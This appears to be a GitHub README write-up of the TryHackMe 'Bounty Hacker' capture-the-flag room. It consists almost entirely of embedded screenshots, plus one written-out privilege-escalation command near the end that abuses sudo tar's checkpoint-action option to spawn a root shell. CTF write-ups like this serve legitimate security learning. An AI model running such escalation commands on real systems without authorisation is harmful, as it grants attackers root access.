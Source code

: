 <p align="center">October 20, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{167}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Bounty Hcker}}$$
</h1>
<p align="center">You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/cowboyhackers">Bounty Hacker</a>.</p>
                                                              
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/d853e4c1-d813-4814-a8f7-0f891e6924d5">
  <img width="900px" src="https://github.com/user-attachments/assets/55e0df78-a301-4474-838f-6f499e7fb887">
</p>

![image](https://github.com/user-attachments/assets/010465f9-4cd7-42e3-ac0a-d6f6cfd5faec)


![image](https://github.com/user-attachments/assets/d6f6de4c-3968-4daf-94e6-dabd211d854b)

![image](https://github.com/user-attachments/assets/81b1bee3-2deb-4df4-a342-d09f7a9f573f)



![image](https://github.com/user-attachments/assets/9dc80404-367c-48a2-8f65-407e1930a7b3)

![image](https://github.com/user-attachments/assets/626aa575-d5c1-4a38-b009-4c332ac887f9)

![image](https://github.com/user-attachments/assets/b687ec32-95d8-4c44-9a78-63d5d1eee097)

![image](https://github.com/user-attachments/assets/83a7cd30-102a-4cf8-a56d-466a8f0f8a36)

![image](https://github.com/user-attachments/assets/c15ffb71-8849-4b35-9354-c27cb60e7ec1)

![image](https://github.com/user-attachments/assets/81b7e746-cdb0-4703-b234-2f55053bff3f)

![image](https://github.com/user-attachments/assets/c1606844-66d4-4ced-b362-fd97a24de819)

![image](https://github.com/user-attachments/assets/24953f6f-3a61-4e89-a0b7-2a6edaf97718)

![image](https://github.com/user-attachments/assets/e6193965-977e-4f14-bb88-cfa927f5170b)

![image](https://github.com/user-attachments/assets/51f5f6fd-9c55-4ed4-810f-79ef4c9198e6)

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![image](https://github.com/user-attachments/assets/95445546-e335-4d05-83d9-303c5b2e4aec)


![image](https://github.com/user-attachments/assets/a833fd3c-e823-4cff-9d6b-becf6b4517a3)


![image](https://github.com/user-attachments/assets/3973057e-bf05-43fd-a1b9-289e8e44f43a)

![image](https://github.com/user-attachments/assets/34894c4a-9a99-4cf1-8431-1621e6622521)















